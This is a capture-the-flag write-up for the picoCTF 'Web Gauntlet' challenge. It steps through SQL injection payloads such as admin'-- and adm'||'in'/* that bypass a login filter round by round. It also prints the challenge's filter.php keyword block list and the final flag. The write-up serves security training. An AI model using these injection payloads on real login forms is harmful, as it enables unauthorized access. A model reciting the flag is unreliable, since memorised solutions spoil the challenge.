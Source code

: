 # Web Gauntlet
## DESCRIPTION:
```
If the flag is not displayed after completing this challenge, try clearing your cookies. 
Cookies set by other challenges may prevent the flag from displaying properly.
```
Can you beat the filters? 
Log in as admin 
http://jupiter.challenges.picoctf.org:40791/ ,
http://jupiter.challenges.picoctf.org:40791/filter.php

## HINTS:
1. You are not allowed to login with valid credentials.
2. Write down the injections you use in case you lose your progress.
3. For some filters it may be hard to see the characters, always (always) look at the raw hex in the response.
4. sqlite
5. If your cookie keeps getting reset, try using a private browser window
## STEPS:
1. First, open the following website -> `http://jupiter.challenges.picoctf.org:41560/`.
2. Since they want us to login as `admin`, let's try to input the username and password as `admin`.

![image](https://user-images.githubusercontent.com/70703371/176408595-b96597a4-09a2-4b90-aad6-f87face817f1.png)

![image](https://user-images.githubusercontent.com/70703371/176408854-7cd077d8-e6a5-4aa1-9d32-c897ef65c0d7.png)


3. Turns out it's not that easy, let's try a sql injection by input the username as `admin'--` and the password as `admin`.

![image](https://user-images.githubusercontent.com/70703371/176409046-6abd6cfe-154a-4725-a64d-1c6f6bb2922f.png)

4.  We made it to round 2!

![image](https://user-images.githubusercontent.com/70703371/176409280-f10ff36b-b297-4806-9752-add54742e738.png)

5. Now try to input the same value as round 1.
6. Seems, it doesn't work out.

![image](https://user-images.githubusercontent.com/70703371/176409444-d6522ed4-2a8a-4fe5-871d-84d0133ef92e.png)

7. Based from the description, we can see what does the current round filtered.
8. Now try to add `/filter.php` at the url.

![image](https://user-images.githubusercontent.com/70703371/176409909-154b6d44-b621-426e-b714-cfb47b499011.png)

9. It is known that the website performs filtering on characters --, now let's try to input the username as `admin'/*` and the password as `admin`.

![image](https://user-images.githubusercontent.com/70703371/176410422-e4beef49-ae1e-4014-8ec9-28045f5da34a.png)

10. Turns out, we made it to round 3!

![image](https://user-images.githubusercontent.com/70703371/176410508-37423346-e290-46b4-b2f1-254d9ddcfbdb.png)

11. Now let's open the `filter.php` again on this round.

![image](https://user-images.githubusercontent.com/70703371/176410667-a8d16926-642e-4c50-8e35-1ad7e0af5210.png)

12. Seems, we can input the same value as round 2, because they still not filter the `/*` characters.
13. Try to input the same value as round 2.

![image](https://user-images.githubusercontent.com/70703371/176410950-88aa9a89-35f0-4fd4-8680-10750fa3a435.png)

14. We made it to round 4!

![image](https://user-images.githubusercontent.com/70703371/176411053-ed3ec962-353e-425f-9c34-c3b10ca58875.png)

15. Let's open the `filter.php` again.

![image](https://user-images.githubusercontent.com/70703371/176411229-90181f1b-5e03-491d-a96a-de2a595de67f.png)

16. It seems, we can't use the `admin` word again, and somehow we have to bypass it.
17. The easiest way to bypass it, is by using concatenation -> `||`.
18. Now, let's try to input the username as `adm'||'in` and the password as `a` or any character you want.

![image](https://user-images.githubusercontent.com/70703371/176411944-443880b1-3177-432a-bb85-7eb57d240646.png)

20. Seems, it's not work out. Let's try to comment the `'AND PASSWORD etc...`. by using the `/*`.
21. So the query will look like this:

```sql
SELECT * FROM users WHERE username='adm'||'in'/* AND password='a'
```

22. Try to input the username as `adm'||'in'/*` and the password as `a` or any character you like, because the password is gonna be a comment, so it won't give any affect.

![image](https://user-images.githubusercontent.com/70703371/176412629-2d9996ed-4658-41a0-bfda-b08dfd49c66d.png)

23. We made it to round 5!

![image](https://user-images.githubusercontent.com/70703371/176412961-fd4d42a2-b206-4b35-ad72-2a09abb0d7b2.png)

24. Next, check the `filter.php` again.

![image](https://user-images.githubusercontent.com/70703371/176413612-fe218b7e-c7b7-4bf5-b7bc-7f2e5d1963b3.png)

25. Seems, we can try to input the same value again as round 4.

![image](https://user-images.githubusercontent.com/70703371/176413761-46a00385-85b8-4a12-9bc8-c1f4c7a84125.png)

25. Now open the `filter.php` file.

![image](https://user-images.githubusercontent.com/70703371/176413881-37024471-fece-4c66-ae48-4e51b7dc261c.png)

```php
<?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_96486d415c04a1abbbcf3a2ebe1f4d02}
?>
```

26. Finally, we got the flag!

---
## FLAG
```
picoCTF{y0u_m4d3_1t_96486d415c04a1abbbcf3a2ebe1f4d02}
```



